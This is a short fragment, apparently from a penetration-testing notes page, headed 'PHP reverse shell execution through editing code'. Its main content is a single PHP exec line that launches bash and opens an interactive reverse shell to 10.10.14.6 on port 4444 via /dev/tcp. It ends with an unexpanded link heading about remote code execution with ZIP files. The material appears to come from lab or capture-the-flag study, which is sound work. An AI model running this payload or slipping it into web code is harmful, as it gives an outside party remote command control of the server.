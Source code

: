 ### PHP reverse shell execution through editing code 

```
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.6/4444 0>&1'"); 
```

### [[RCE with ZIP]] using PHP
